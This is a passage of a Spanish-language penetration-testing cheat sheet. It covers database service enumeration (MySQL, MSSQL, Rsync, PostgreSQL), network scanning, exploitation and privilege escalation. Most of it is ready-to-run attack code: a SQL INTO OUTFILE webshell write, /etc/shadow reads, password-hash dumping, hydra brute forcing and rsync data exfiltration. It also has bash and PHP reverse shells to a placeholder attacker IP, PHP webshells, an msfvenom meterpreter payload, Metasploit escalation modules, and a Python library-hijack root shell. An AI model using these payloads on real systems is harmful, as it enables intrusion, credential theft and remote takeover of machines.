select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'

#Try to change MySQL root password
UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';
UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';
FLUSH PRIVILEGES;
quit;

# Mysql client
help
show databases;
use <DB_NAME>;
select count(*) from <TABLE_NAME>;
select load_file("/etc/shadow");
```

Enumerar permisos MySQL

```bash
SHOW GRANTS [FOR user];
SHOW GRANTS;
SHOW GRANTS FOR 'root'@'localhost';
SHOW GRANTS FOR CURRENT_USER();

# Get users, permissions & hashes
SELECT * FROM mysql.user;

#From DB
select * from mysql.user where user='root';
## Get users with file_priv
select user,file_priv from mysql.user where file_priv='Y';
## Get users with Super_priv
select user,Super_priv from mysql.user where Super_priv='Y';

# List functions
SELECT routine_name FROM information_schema.routines WHERE routine_type = 'FUNCTION';
#@ Functions not from sys. db
SELECT routine_name FROM information_schema.routines WHERE routine_type = 'FUNCTION' AND routine_schema!='sys';
```

Credenciales

```bash
cat /etc/mysql/debian.cnf

Dentro del archivo: /var/lib/mysql/mysql/user.MYD puedes encontrar todos los hashes de los usuarios de MySQL (los que puedes extraer de mysql.user dentro de la base de datos).

Puedes extraerlos haciendo:

bash

grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```

### Port 1433 | MSSQL

Enumeración automatica

```bash
# Nmap

nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>

# Metasploit

msf> use auxiliary/scanner/mssql/mssql_ping
```

Metasploit (necesita credenciales)

```bash
#Set USERNAME, RHOSTS and PASSWORD
#Set DOMAIN and USE_WINDOWS_AUTHENT if domain is used

#Steal NTLM
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer #Steal NTLM hash, before executing run Responder

#Info gathering
msf> use admin/mssql/mssql_enum #Security checks
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/scanner/mssql/mssql_hashdump
msf> use auxiliary/scanner/mssql/mssql_schemadump
msf >use auxiliary/scanner/mssql/mssql_login

#Search for insteresting data
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf

#Privesc
msf> use exploit/windows/mssql/mssql_linkcrawler
msf> use admin/mssql/mssql_escalate_execute_as #If the user has IMPERSONATION privilege, this will try to escalate
msf> use admin/mssql/mssql_escalate_dbowner #Escalate from db_owner to sysadmin

#Code execution
msf> use admin/mssql/mssql_exec #Execute commands
msf> use exploit/windows/mssql/mssql_payload #Uploads and execute a payload

#Add new admin user from meterpreter session
msf> use windows/manage/mssql_local_auth_bypass
```

### Port 873 | Rsync

Banner grabbing

```bash
nc -nv <IP> 873
```

Enumeration nmap

```bash
nmap -sV --script "rsync-list-modules" -p 873 target_host
```

Enumeration metasploit

```bash
msf> use auxiliary/scanner/rsync/modules_list
```

Enumerar carpetas compartidas

```bash
rsync target_host::

#Para archivos y permisos

rsync -av --list-only rsync://target_host/module_name

# Exfiltrar datos:

❯ rsync -avz target_host::module_name /local/directory/

```

### Port 5432 | PostgreSQL

Conectar con psql

```bash
psql -h <target-host> -p <port> -U <username> -W
```

Enumerar 

```bash
nmap -sV -p 5432 <target-host>

# Version
nmap -sV --script=postgresql-info -p 5432 <target-host>
```

Enumerar BD y tablas

```bash
# List all databases
\l

# Switch to a database
\c <database_name>

# List tables in the current database
\dt

# Extract data from a specific table:
SELECT * FROM <table_name>;

# Dumping Hashes
SELECT usename, passwd FROM pg_shadow;
```

Accessing File System

```bash
COPY (SELECT * FROM sensitive_table) TO '/tmp/sensitive_data.txt';
```

Bruteforce

```bash
hydra -L userlist.txt -P passlist.txt <target-ip> postgres
```

## Reconocimiento

### Network Mapping

IP

```bash
# Linux
ifconfig
ip a 
ip -br -c a

# Windows 
ipconfig /all

# Routing Linux
ip route

#Routing Windows
route print
```

Ports

```bash
# Linux
netstat -tunp
netstat -tulpn
netstt -p tcp -p upd

# Winndows

netstat -ano

```

Barrido de Ip’s (ICMP Discovery/ Ping Scan)

```bash

nmap -sn 10.10.10.0/24

nmap -n -sn <IP>/24 -oG - | awk '/Up$/{print $2}' >> nmapresults.txt

fping -a -g 10.10.10.0/24 2>/dev/null | tee hosts_activos.txt
```

ARP Discovery

```bash

#Local Linux
ip neighbour

#Local Windows 
arp -a

#Arp-scan

netdiscover -i eth1 -r <IP>/24
arp-scan -I eth1 <IP>/24

# Nmap:
nmap -n -sn <IP>/24 -PR -oG - | awk '/Up$/{print $2}'
```

### Nmap

Nmap Options

```bash
# Options

-p- : Escanea todos los puertos
-Pn : Desactiva host discovery, asume que el host está activo 
-n  : Desactiva resolución DNS
-sn : Descativa escaneo de puertos. Solo verifica host discovery.
-sL : No escanea, solo lista los nombres de los host
-F  : Fast mode. Puede omitir servicios en puertos altos.
-T5 : Velocidad del escanero

# Scan Types

-sS: TCP SYN Scan (aka Stealth Scan)
-sT: TCP Connect Scan 
-sU: UDP Scan
-sC: Ejecuta los scripts predeterminados de Nmap
-sV: Service Version information
-O: Operating System information
```

Escanear un Rango de Red

```bash
nmap -sn 10.129.2.0/24 -oG hosts_activos.txt

#  10.129.2.0/24: Especifica el rango de red objetivo.

# -sn: Desactiva el escaneo de puertos, realizando solo el descubrimiento de hosts.

# -oA tnet | grep for | cut -d" " -f5
 Almacena los resultados en todos los formatos que comienzan con el nombre tnet.
 
 # Para escanear un único host:
 
 nmap -sn 10.129.2.18 

```

Escanear lista de IP’s:

```bash
nmap -sn -iL hosts_list.txt

-sn: Desactiva el escaneo de puertos.

-oA tnet | grep for | cut -d" " -f5 : Almacena los resultados en todos los formatos que comienzan con el nombre tnet.

-iL hosts.list.txt : Lee los hosts de la lista hosts_list.txt proporcionada.
```

Deteccion de SO y versiónes de servicios:

```bash
nmap -Pn -O -sCV <IP>

# Para hacerlo más rápido
#Puertos mas comunues

nmap -Pn -F -T5 -sV -O -sC <IP> -vvv 

# Todos los puertos abiertos

nmap -Pn -T4 --open -sS -sC -sV --min-rate-1000 --max-retries-3 -p- -oN output_file 10.10.10.2
```

Scan versions

```bash
nmap -sCV -p- -vvv 10.10.10.10
```

UDP Scan

```bash
nmap -sU -sn -sV 10.10.10
```

### MassScan

Escaneo multipe de puertos especificados contra un rango de IP’s

```bash
sudo masscan -p<port1>,<port2> <ip address/range>
```

Escaneo multiple de rango de puertos para varias IP’s:

```bash
sudo masscan -p<port1>-<portN> <ip address/range>
```

### Procedimiento 1

```bash
# Network Mapping

fping -a -g 10.10.10.0/24 2>/dev/null | tee hosts_activos.txt
arp-scan -I eth1 <IP>/24

# Nmap

nmap -v -sn 10.129.2.0/24 -oG hosts.txt && grep hosts.txt | cut -d " " -f 2
nmap -sU -sn <IP>/24 (UDP)

Podemos hacer los escaneos posteriores juntos con la lista anterior o uno por uno.

# Versiones y servicios para todos los puertos

nmap -Pn -O -sCV -vvv <IP>
nmap -Pn -O -sCV -IL hosts_activos.txt

# Full scan

nmap -p- --open -Pn -sVC -T4 -A -iL hosts.txt -oN allports.txt
```

### Procedimiento 2

```bash
Ex: 

ip a
nmap -sn 10.0.2.0/24 #manda paquetes ICMP a ese segmento de red

# Hosts: 10.0.2.43 / 10.0.2.45 / 10.0.2.46 / 10.0.2.53 / 10.0.2.55

sudo nmap -sS --min-rate 5000 -p- --open 10.0.2.43,45,46,53,55 -oN port_scan.txt
grep '^[0-9]' port_scan.txt | cut -d '/' -f1 | sort -u | xargs | tr ' ' ','

# Puertos : 22,25,45,80,445,135,139,49665,49670

nmap --open -p135,139,22,25,45,445,49665,49670,80 -sC -sV 10.0.2.43,45,46,53,55 -Pn -On full_scan.txt
```

## Explotacion

### Shells

### Rever Shells

Bash :

```bash
  #Cambiar IP / Port 

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc **IP Port** >/tmp/f

bash -i >& /dev/tcp/**IP**/**Port** 0>&1
```

### WebShell

Cmd

```php
<?php echo "<pre>" . system($_GET['cmd']) . "</pre>"; ?>

# NOTA': Puede que si no se interpreta, haya que encodear el ? de la url por un &

<%3Fphp echo "<pre>" . system($_GET['cmd']) . "</pre>"; %3F>

# Con shell_exec

<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>
```

Cmd search bar

```bash
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

Revershell PHP

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/**ATTACKING IP**/**PORT** 0>&1'");?>
```

### Revershell Windows

Metasploit shell

```bash
#Parte 1
msfvenom  -p windows/meterpreter/reverse_tcp LHOST=LocalIP LPORT=4444 -f exe -o payload.exe

#Parte 2
msfconsole> use multi/handler
msfconsole>show options
msfconsole>set LHOST=LocalIP
msfconsole>set LPORT=4444
msfconsole>set PAYLOAD windows/meterpreter/reverse_tcp

```

## Escalada de privilegios

View Listen services with port

```bash
ss -tl
```

Sudo 

```bash
sudo -l
```

Capabilities

```bash
getcap -r / 2>/dev/null
```

SUID

```bash
find / -perm -u=s -type f 2>/dev/null
```

```bash
find / -perm -4000 2>/dev/null
```

Windows (Metasploit)

```bash
# Una vez tenemos acceso a la maquina con algún usuario a traves de metasploit, 
# podemos usar el siguiente modulo
meterpreter>backgound
msf6> sessions -l 
1
msf6> use local_exploit_suggester
msf6> set SESSION 1
msf6> run
```

Python Library Hijacking

```bash
# Si encontramos un script de python importanto modulos

user> sudo -l
    (root): /usr/bin/python3 /opt/scripts/example.py

user> cat example.py  
example.py:
#!/usr/bin/bash
import random
print(random.randint(1, 8))

# Podemos crear un script malicioso en python con el mismo nombre que el modulo que 
# importa, de esta manera , se ejecutara antes que el resto y con permisos de root
# En este caso importa el modulo: random

user> touch /opt/scripts/random.py

#!/usr/bin/bash
import os
os.system("/bin/bash")
#Para una rever : 
# os.system('bash -c "/bin/bash -i >& /dev/tcp/<ATTACING_IP>/9001 0>&1"')
  
user> sudo  /usr/bin/python3 /opt/scripts/example.py
   
 
```